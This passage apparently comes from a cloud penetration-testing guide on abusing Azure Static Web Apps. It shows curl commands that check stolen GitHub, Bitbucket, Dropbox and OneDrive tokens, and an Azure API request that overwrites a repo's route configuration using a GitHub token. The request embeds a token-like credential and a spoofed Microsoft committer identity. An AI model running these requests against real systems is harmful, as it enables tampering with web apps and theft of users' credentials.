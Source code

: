 This command returns tokens for Github, Bitbucket, Dropbox and OneDrive.

Here you have some command examples to check the tokens:

```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
     -H "Authorization: Bearer <token>" \
     -H "Content-Type: application/json" \
     --data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://graph.microsoft.com/v1.0/me/drive/root/children
```

### Overwrite file - Overwrite routes, HTML, JS...

It's possible to **overwrite a file inside the Github repo** containing the app through Azure having the **Github token** sending a request such as the following which will indicate the path of the file to overwrite, the content of the file and the commit message.

This can be abused by attackers to basically **change the content of the web app** to serve malicious content (steal credentials, mnemonic keys...) or just to **re-route certain paths** to their own servers by overwriting the `staticwebapp.config.json` file.

> [!WARNING]
> Note that if an attacker manages to compromise the Github repo in any way, they can also overwrite the file directly from Github.

```bash
curl -X PUT "https://functions.azure.com/api/github/updateGitHubContent" \
-H "Content-Type: application/json" \
-d '{
    "commit": {
        "message": "Update static web app route configuration",
        "branchName": "main",
        "committer": {
            "name": "Azure App Service",
            "email": "donotreply@microsoft.com"
        },
        "contentBase64Encoded": "ewogICJuYXZpZ2F0aW9uRmFsbGJhY2siOiB7CiAgICAicmV3cml0ZSI6ICIvaW5kZXguaHRtbCIKICB9LAogICJyb3V0ZXMiOiBbCiAgICB7CiAgICAgICJyb3V0ZSI6ICIvcHJvZmlsZSIsCiAgICAgICJtZXRob2RzIjogWwogICAgICAgICJnZXQiLAogICAgICAgICJoZWFkIiwKICAgICAgICAicG9zdCIKICAgICAgXSwKICAgICAgInJld3JpdGUiOiAiL3AxIiwKICAgICAgInJlZGlyZWN0IjogIi9sYWxhbGEyIiwKICAgICAgInN0YXR1c0NvZGUiOiAzMDEsCiAgICAgICJhbGxvd2VkUm9sZXMiOiBbCiAgICAgICAgImFub255bW91cyIKICAgICAgXQogICAgfQogIF0KfQ==",
        "filePath": "staticwebapp.config.json",
        "message": "Update static web app route configuration",
        "repoName": "carlospolop/my-first-static-web-app",
        "sha": "4b6165d0ad993a5c705e8e9bb23b778dff2f9ca4"
    },
    "gitHubToken": "gho_1OSsm834ai863yKkdwHGj31927PCFk44BAXL"
}'
```
